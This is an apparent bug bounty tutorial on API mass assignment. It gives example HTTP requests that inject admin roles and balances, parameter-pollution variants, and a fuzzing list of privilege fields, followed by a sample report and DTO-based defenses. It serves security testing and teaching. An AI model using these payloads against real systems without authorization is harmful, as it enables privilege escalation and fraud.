

# API Mass Assignment Exploitation

## When to Use
- When testing applications built on modern MVC web frameworks (e.g., Ruby on Rails, Spring Boot, Laravel, Node.js ORMs) that emphasize rapid automated data-binding logic.
- During user registration (`POST /api/users/register`) where you want to test allocating non-standard privileges straight into the database.
- When updating user profiles (`PUT /api/users/profile`) where sensitive keys might reside.
- When you have discovered API documentation (Swagger) outlining extended fields you cannot normally see in the frontend app.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying the Input-to-Object Mapping

```http
# Concept: Mass Assignment occurs when a developer writes code like:
# `user.update(request.body)` instead of specifically declaring what can be updated:
# `user.update(name = request.body.name, age = request.body.age)`
# If you inject `{"role": "admin"}`, the database blindly merges it.

# 1. Analyze normal requests:
PUT /api/v1/profile HTTP/1.1
Content-Type: application/json

{"first_name": "Bob", "last_name": "Smith"}

# 2. Analyze the response:
HTTP/1.1 200 OK
{"id": 512, "first_name": "Bob", "last_name": "Smith", "role": "user", "balance": 0.00}

# Observation: The response leaked the variables "role" and "balance" indicating they exist as properties within the backend object!
```

### Phase 2: Exploitation via JSON Injection

```json
# Concept: Since we know the internal names of the prohibited variables from Phase 1, 
# we inject them into the standard PUT request.

# 1. Inject the payload:
PUT /api/v1/profile HTTP/1.1

{"first_name": "Bob", "last_name": "Smith", "role": "admin", "balance": 99999.00}

# 2. Assessment:
# If the server responds with 200 OK, and you log out and back in and verify you have administrative controls or $99,999 in funds, the vulnerability is confirmed.
```

### Phase 3: Exploitation via HTTP Parameter Pollution (HPP)

```text
# Concept: Sometimes the server rejects unexpected JSON elements perfectly. 
# However, if using URL forms, providing duplicate parameters can confuse the backend parser.

# 1. Standard POST request:
POST /update_profile
first_name=Bob&last_name=Smith

# 2. Injecting malicious properties:
POST /update_profile
first_name=Bob&last_name=Smith&role=admin

# 3. HTTP Parameter Pollution (Providing the variable twice to override filters/WAFs):
# The WAF sees the first `role`, thinks it's restricted, but the backend processes the SECOND `role`.
POST /update_profile
first_name=Bob&last_name=Smith&role=user&role=admin
```

### Phase 4: Blind Parameter Discovery

```text
# Concept: What if the API response doesn't conveniently echo back the existing variables like `balance` or `role`?
# We must use Fuzzing (e.g., Arjun or Burp Intruder) to guess high-value property names.

# Common Mass Assignment Targets:
"is_admin": true
"isAdmin": true
"role": 1
"is_verified": true
"mfa_enabled": false
"account_type": "premium"
"status": "active"
"permissions": 999
"wallet_balance": 500

# Action: Build a JSON list merging these variables into your standard profile update, and monitor 
# the behavior of the application going forward. If suddenly you pass paywalls, Mass Assignment worked.
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Monitor API Response JSON] --> B{Does it leak internal properties?}
    B -->|Yes| C[Copy leaked properties (e.g., `role`, `status`)]
    B -->|No| D[Use wordlist to guess high-value properties]
    C --> E[Inject properties into standard PUT/POST requests]
    D --> E
    E --> F{Does it update the database?}
    F -->|Yes| G[High Severity: Privilege Escalation]
    F -->|No| H[Test with Parameter Pollution 'val=user&val=admin']
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Explicit Field Overrides (DTOs)**: Stop passing raw internet HTTP dictionaries directly to database ORM functions. Strictly enforce the usage of Data Transfer Objects (DTOs), mapping the permitted parameters to the backend model.
  - VULNERABLE: `DB.users.update_all(req.body)`
  - SECURE: `DB.users.update(name=req.body.name, bio=req.body.bio)`
- **`readonly` Declarations**: Modern MVC frameworks natively support restricting model variables at the schema level. Define sensitive values (IDs, roles, financial balances) as `readonly` or protected, forcing the ORM to aggressively reject mass-assignment operations upon those specifically annotated columns.
- **Strict Parsing Configurations**: Configure frameworks (e.g., Spring Boot `FAIL_ON_UNKNOWN_PROPERTIES`) to immediately throw HTTP 400 Bad Request if a client transmits a property not specifically bound to the destination class.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Mass Assignment | A vulnerability where a framework allows a user to update multiple database properties simultaneously using a hash or JSON object without scrutinizing individual keys |
| Model Binding | The automated process that web frameworks use to convert raw HTTP strings/JSON into programmatic, object-oriented variables |
| Auto-binding | Often used synonymously with Mass Assignment, indicating the framework is automatically creating the object blindly |

## Output Format
```
Bug Bounty Report: Vertical Privilege Escalation via Mass Assignment
====================================================================
Vulnerability: API Mass Assignment (Auto-binding)
Severity: Critical (CVSS 9.0)
Target: PUT /api/v2/user_settings

Description:
The application update logic located at `/api/v2/user_settings` utilizes an insecure Object Relational Mapper (ORM) configuration allowing direct object binding. When observing a normal API `GET` request to fetch the user profile, the response JSON leaks the `["is_admin", "subscription_tier"]` properties. 

Because the backend lacks proper Data Transfer Object (DTO) filtering, an attacker can construct an `HTTP PUT` request containing these exact properties, and the server will unconditionally merge them into the database structure.

Reproduction Steps:
1. Log into a lowly-privileged free account.
2. Intercept the profile update request (changing account name).
3. Append the injected attributes:
   `{"name": "Hacked Account", "is_admin": 1, "subscription_tier": 4}`
4. Submit the request. Wait for the `HTTP 200 OK` response.
5. Navigate to `target.com/admin_panel`. Since your database role is formally upgraded, you bypass all authorization restrictions.

Impact:
Critical logic flaw allowing total administrative Account Takeover and uninhibited financial service theft.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Industry Bounty Payout Statistics (2024-2025)

| Company/Platform | Total Paid | Highest Single | Year |
|-----------------|------------|---------------|------|
| **Google VRP** | $17.1M | $250,000 (CVE-2025-4609 Chrome sandbox escape) | 2025 |
| **Microsoft** | $16.6M | (Not disclosed) | 2024 |
| **Google VRP** | $11.8M | $100,115 (Chrome MiraclePtr Bypass) | 2024 |
| **HackerOne (all programs)** | $81M | $100,050 (crypto firm) | 2025 |
| **Meta/Facebook** | $2.3M | up to $300K (mobile code execution) | 2024 |
| **Crypto.com (HackerOne)** | $2M program | $2M max | 2024 |
| **1Password (Bugcrowd)** | $1M max | $1M (highest Bugcrowd ever) | 2024 |
| **Samsung** | $1M max | $1M (critical mobile flaws) | 2025 |

**Key Takeaway**: Google alone paid $17.1M in 2025 — a 40% increase YoY. Microsoft paid $16.6M.
The industry is paying more, not less. Average critical bounty on HackerOne: $3,700 (2023).

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [API6:2019 Mass Assignment](https://owasp.org/API-Security/editions/2019/en/0x11-i6-mass-assignment/)
- OWASP: [API3:2023 Broken Object Property Level Authorization (Modern terminology)](https://owasp.org/API-Security/editions/2023/en/0x11-i3-broken-object-property-level-authorization/)
- PortSwigger: [Mass assignment vulnerabilities](https://portswigger.net/web-security/api-testing/exploitation)
